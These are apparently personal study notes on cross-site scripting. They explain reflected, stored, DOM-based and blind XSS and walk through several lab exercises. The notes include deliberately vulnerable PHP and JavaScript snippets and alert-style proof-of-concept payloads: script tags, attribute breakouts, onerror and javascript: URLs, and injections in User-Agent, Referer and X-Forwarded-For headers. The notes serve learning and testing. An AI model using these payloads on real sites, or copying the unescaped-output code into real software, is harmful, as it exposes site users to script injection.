 
#+title: XSS types
#+author: gabriel

* reflected xss
Reflected XSS is a type of attack where a malicious script is sent to a web application and reflected back to the user's browser.

 These attacks usually occur when users are tricked by social engineering tactics into clicking on a link containing the XSS payload.These links trigger an HTTP request containing malicious code, which the server mirrors back in the HTTP response, executing within the user's browser.

 An attacker can craft a URL containing a malicious script that gets reflected by the web application:

 : https://example.com/home?search=<script>alert('XSS')</script>

 A simple XSS payload was entered into the search box to trigger a JavaScript alert displaying the number "1". The payload successfully executed, confirming the vulnerability.

 : ?q=<script>alert(1)</script>

 *html injection* ->
 : ?q=<h1 style="color:green;">TEST</h1>

*vulnerable php code* ->
 #+begin_src php
<?php
    if (isset($_GET['q'])) {
        $q = $_GET['q'];
        echo '<div class="alert alert-danger" role="alert">
            No Result Found for <b>' . $q . '</b>
        </div>';
    }
?>
 #+end_src

 This code checks for the presence of a q GET parameter in the URL. If the parameter is present, its value is assigned to the variable $q.

 This variable is then directly echoed into an HTML context within <div> and <b> tags.

* stored xss
Stored XSS is a type of attack where malicious scripts are stored in a web application's database and then executed in the user's browser whenever the affected page is viewed.

 These attacks usually occur in scenarios where user-provided data is stored, such as messaging apps, forum posts, comments, or user profiles.

The key difference from Reflected XSS is that the payload is stored in the database.

*vulnerable code* ->
 #+begin_src php
<?php
    $messages = $db->query("SELECT * FROM messages");
    if ($messages) {
        while ($row = $messages->fetch(PDO::FETCH_ASSOC)) {
            echo "<div>" . $row['message'] . "</div>";
        }
    }
?>
 #+end_src

This PHP code snippet fetches messages from the database and directly displays them in an HTML context.This creates an environment susceptible to Stored XSS attacks.

* DOM-basesd XSS
DOM-based XSS is a type of attack that occurs when a web page's client-side scripts (JavaScript) manipulate the Document Object Model (DOM) in an unsafe way.

The Document Object Model (DOM) is a programming interface that represents the structure, style, and content of a web document

It is a standard for HTML and XML documents and enables dynamic updates to web pages.

The DOM is commonly used with JavaScript. JavaScript uses DOM APIs to dynamically change the structure, style, and content of a web page.

DOM-based XSS involves the manipulation of the DOM by client-side scripts. These vulnerabilities occur not during the initial page load from the server, but during the execution of client-side scripts.

*source code* ->
#+begin_src javascript
document.getElementById('output').innerHTML = window.location.hash.substring(1);
#+end_src

*payload* ->
#+begin_src text
https://example.com#<script>alert(1)</script>
#+end_src

In this example, the fragment part of the URL (#<script>alert(1)</script>) is assigned directly to the innerHTML property of an HTML element, causing the browser to execute the JavaScript.

** eval function to execute XSS
*source code* ->
#+begin_src javascript
window.onload = function() {
    const productId = new URLSearchParams(window.location.search).get('id');
    eval('getProduct('+ productId.toString()+')');
}
#+end_src

*payload* ->
: https://example.com/products?id=');alert(1)//

The above code takes the id parameter from the URL and uses the eval() function to call getProduct().

In this payload, the id parameter ends with a closing parenthesis ('), followed by );, ending the current eval() call.

** innerHTML function to execute XSS
*source code* ->
#+begin_src javascript
document.getElementById('content').innerHTML = unescape(location.search.substring(1));
#+end_src

*payload* ->
: https://example.com?%3Cscript%3Ealert(1)%3C/script%3E

In this scenario, user input (location.search) is directly assigned to innerHTML, which can execute any hazardous scripts if the input contains malicious code.

* DOM-base XSS Attack

[[./imgs/calc.png]]

It appears to be an application that calculates the area of a triangle based on height and base values. To understand its working principle, values are entered and tested.
: https://example.com/?height=5&base=12

*Affected COde* ->
#+begin_src php
<script>
  var height = 5;
  var base = 12;
  var ans = base * height / 2;
  document.getElementById("answer").innerHTML = "<b>Area:</b> " + ans;
</script>
#+end_src

 it is seen that values assigned to variables height and base are included in the JavaScript within the HTML. This appears to be an exploitable point.

 A payload triggering an alert box displaying the number 1 is entered into the height field.
 : https://example.com/?height=5; alert(1)&base=12

*Affected Code* ->
#+begin_src javascript
<script>
  var height = 5;alert(1);
  var base = 12;
  var ans = base * height / 2;
  document.getElementById("answer").innerHTML = "<b>Area:</b> " + ans;
</script>
#+end_src


*vulnerable code* ->
#+begin_src javascript
<?php
    if (isset($_GET['base']) && isset($_GET['height'])) {
        echo '<div class="alert alert-success" id="answer"></div>';
        echo '<script>';
        echo 'var height = ' . $_GET['height'] . ';';
        echo 'var base = ' . $_GET['base'] . ';';
        echo 'var ans = base * height / 2;';
        echo 'document.getElementById("answer").innerHTML = "<b>Area:</b> " + ans;';
        echo '</script>';
    }
?>
#+end_src

This code snippet directly includes user-provided base and height values into JavaScript code. If these parameters contain malicious content, they can be executed in the browser, causing an XSS attack.

* Blind XSS
Blind XSS is a type of Cross-Site Scripting (XSS) attack that occurs when a web application processes and stores user input but does not reflect it immediately on the visible/frontend of the application.

In a Blind XSS attack, an attacker provides input containing an XSS payload to the application.

An attacker can utilize the User-Agent header to inject malicious code. If the application logs this header directly and displays it in a web interface, the attack may succeed.

: User-Agent: Mozilla/5.0 <script>alert('XSS')</script>

The Referer HTTP header indicates the URL of the resource from which the request was initiated.

Attackers can inject JavaScript code into this header, which can be executed if viewed by the admin panel without proper sanitization.

: Referer: http://other-site.com<script>alert('XSS')</script>

The X-Forwarded-For header specifies the original IP address from which a request was made.

: X-Forwarded-For: 198.51.100.15 <script>alert('XSS');</script>

* reflected XSS via html attribute manipulation
This lab is an example that requires the Reflected XSS vulnerability to be triggered from within an HTML Attribute.

To complete the lab, the parameter "q" in the URL must be given a payload that escapes through the HTML Attribute "value".

Find a way to trigger the XSS vulnerability without disrupting the functioning of the website.

Normal payloads are being reflected at page, but normal payloads which use the <script> tag, has being filtered by something in this web application.

*Filtro da aplicação com a tag script* ->
#+begin_src sh
<div class="mb-3"> <input class="form-control" type="text" name="q" placeholder="What is xss?" value=""%3E%3Cscript%3Ealert("oi")%3C/script%3E"> </div>
#+end_src

Com este outro payload a aplicação acaba executando o XSS ->
: " autofocus onfocus=alert(1) x="

*response* ->
#+begin_src sh
<div class="mb-3"> <input class="form-control" type="text" name="q" placeholder="What is xss?" value="" autofocus onfocus=alert(1) x=""> </div>
#+end_src


* stored XSS in anchor href attribute HTML-Encoded
This lab is an example that requires the Stored XSS vulnerability to be triggered from within an HTML Attribute.

Find a way to trigger the XSS vulnerability without disrupting the functioning of the website.

Some payloads are tested to no distupt the page, but failed several times with different trys

THis payload works ->
: javascript:alert(1)

* Manipulating Images with the HTML Href Attribute
This lab is an example that requires the Reflected XSS vulnerability to be triggered from within an HTML Attribute.

To complete the lab, the "art" parameter in the URL must be given a payload that escapes through the HTML Attribute "href".

Find a way to trigger the XSS vulnerability without disrupting the functioning of the website.

The art? param wait for a filesystem path image, so the onerror can trigger an XSS ->
: ?art=x" onerror="alert(1)

* Stored XSS via User-Agent (Blind XSS)
This lab is an example that requires the Stored XSS vulnerability to be triggered using the User Agent value in the HTTP request header and body.

Find a way to trigger the XSS vulnerability without disrupting the functioning of the website.

The User-Agent header contains a string used by a client (usually a web browser) to identify itself to a web server.
 Attackers can inject JavaScript into this header, and if viewed by the admin panel without filtering, the script is executed upon rendering.

: User-Agent: Mozilla/5.0 <script>alert('XSS')</script>

* Blind XSS via Referer header
The Referer HTTP header indicates the URL of the resource from which the request was initiated. It is often used for analysis, logging, or security purposes.

Attackers can inject JavaScript code into this header, which can be executed if viewed by the admin panel without proper sanitization.

: Referer: http://other-site.com <script>alert('XSS')</script>

* Bind XSS via X-Forwarded-For header
The X-Forwarded-For header specifies the original IP address from which a request was made. This header is commonly used by load balancers and proxy servers.

Attackers can inject JavaScript into this header, and if viewed without filtering, for instance, by an admin panel, the script can be executed.

: X-Forwarded-For: 198.51.100.15 <script>alert('XSS');</script>

* Stored XSS Vulnerability via Image Upload-Induced
This lab is an example that requires the Stored XSS vulnerability to be triggered by the uploaded photo file.

Find a way to trigger the XSS vulnerability without disrupting the functioning of the website.
